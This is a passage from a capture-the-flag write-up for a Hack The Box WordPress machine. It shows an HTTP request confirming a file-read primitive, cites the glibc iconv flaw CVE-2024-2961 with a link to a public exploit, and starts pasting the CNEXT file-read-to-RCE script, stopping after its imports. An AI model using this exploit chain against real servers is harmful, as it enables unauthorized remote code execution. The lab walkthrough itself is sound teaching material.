Looking at the content
```http
GET /wp-content/uploads/2025//05/1.png HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Date: Sun, 04 May 2025 16:04:00 GMT
Server: Apache/2.4.62 (Debian)
Last-Modified: Sun, 04 May 2025 16:02:48 GMT
ETag: "11-6345183c69ddd"
Accept-Ranges: bytes
Content-Length: 17
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: image/png

GIF89aBrainmyman
```

This is not enough to get RCE. We need to find a way to get RCE.
Searching online, you'll eventually find another blog post talking about another bug related to this exploit.

[CVE-2024-2961](https://blog.lexfo.fr/iconv-cve-2024-2961-p1.html)

> The iconv() function in the GNU C Library versions 2.39 and older may overflow the output buffer passed to it by up to 4 bytes when converting strings to the ISO-2022-CN-EXT character set, which may be used to crash an application or overwrite a neighbouring variable. [https://nvd.nist.gov/vuln/detail/cve-2024-2961](https://nvd.nist.gov/vuln/detail/cve-2024-2961)

https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py

Using PHP gadget filter chain and the previous POC, you will end up with this script:

```python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64
import zlib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *

```